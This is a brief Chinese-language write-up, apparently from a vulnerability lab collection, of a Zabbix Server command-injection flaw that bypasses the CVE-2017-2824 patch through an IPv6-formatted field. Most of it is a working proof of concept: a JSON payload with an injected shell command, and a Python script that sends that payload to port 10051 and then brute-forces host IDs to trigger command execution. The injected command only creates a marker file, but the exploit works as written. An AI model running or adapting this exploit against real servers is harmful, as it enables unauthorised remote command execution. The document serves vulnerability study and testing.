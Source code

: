 ### 一 漏洞名

### 二 漏洞描述
Zabbix 是由Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。在CVE-2017-2824中,其Server端 trapper command 功能存在一处代码执行漏洞,而修复补丁并不完善,导致可以利用IPv6进行绕过,注入任意命令。

### 三 利用方式
运行poc  
{"request": "active checks", "host": "vulhub", "ip": ";touch /tmp/success"}

```python
import sys
import socket
import json
import sys

def send(ip, data):    
    conn = socket.create_connection((ip, 10051), 10)    
    conn.send(json.dumps(data).encode())    
    data = conn.recv(2048)    
    conn.close()    
    return data

target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":"ffff:::;touch /tmp/success2"}))
for i in range(10000, 10500):    
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})    
    if data and b'failed' not in data:        
        print('hostid: %d' % i)        
        print(data)
```

### 四 修复方式
升级
